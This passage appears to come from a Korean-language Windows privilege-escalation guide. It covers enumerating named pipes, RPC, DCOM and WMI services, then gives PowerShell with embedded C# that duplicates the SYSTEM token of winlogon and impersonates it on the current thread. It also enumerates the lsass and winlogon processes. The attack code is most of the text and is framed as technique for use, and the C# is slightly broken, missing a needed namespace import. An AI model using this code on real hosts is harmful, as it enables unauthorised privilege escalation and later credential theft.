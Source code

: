 ### 🔍 Named Pipe 및 RPC 분석

```cmd
:: 1. 사용 가능한 Named Pipe 상세 확인
powershell "Get-ChildItem \\.\pipe\ | Where-Object {$_.Name -like '*spoolss*' -or $_.Name -like '*samr*' -or $_.Name -like '*lsarpc*'}"

:: 2. RPC 포트 매핑 확인
rpcinfo -T tcp -p localhost 2>nul
netstat -an | findstr ":135\|:445\|:593"

:: 3. DCOM 애플리케이션 확인
dcomcnfg.exe
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Classes\AppID" | findstr "CLSID"

:: 4. 프로세스별 Named Pipe 사용 현황
handle.exe -a | findstr "\\Device\\NamedPipe"

:: 5. WMI 서비스 확인 (일부 공격에 필요)
sc query winmgmt
wmic process where "name='wmiprvse.exe'" get ProcessId,CommandLine
```

### ⚡ 고급 Token 조작 기법

```powershell
# 1. Token 복제 및 조작
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;
using System.Security.Principal;

public class AdvancedTokenManipulation {
    [DllImport("advapi32.dll", SetLastError = true)]
    public static extern bool OpenProcessToken(IntPtr ProcessHandle, uint DesiredAccess, out IntPtr TokenHandle);

    [DllImport("advapi32.dll", SetLastError = true)]
    public static extern bool DuplicateToken(IntPtr ExistingTokenHandle, int SECURITY_IMPERSONATION_LEVEL, out IntPtr DuplicateTokenHandle);

    [DllImport("advapi32.dll", SetLastError = true)]
    public static extern bool SetThreadToken(IntPtr Thread, IntPtr Token);

    [DllImport("kernel32.dll")]
    public static extern IntPtr GetCurrentThread();

    public static void CloneSystemToken() {
        // SYSTEM 프로세스에서 토큰 복제
        IntPtr hSystemProcess = Process.GetProcessesByName("winlogon")[0].Handle;
        IntPtr hSystemToken;
        IntPtr hDuplicateToken;

        OpenProcessToken(hSystemProcess, 0x0002, out hSystemToken);
        DuplicateToken(hSystemToken, 2, out hDuplicateToken);
        SetThreadToken(GetCurrentThread(), hDuplicateToken);
    }
}
"@

# 2. 프로세스 토큰 열거
Get-WmiObject Win32_Process | Where-Object {$_.Name -eq "lsass.exe" -or $_.Name -eq "winlogon.exe"} | Select-Object Name, ProcessId, ParentProcessId

```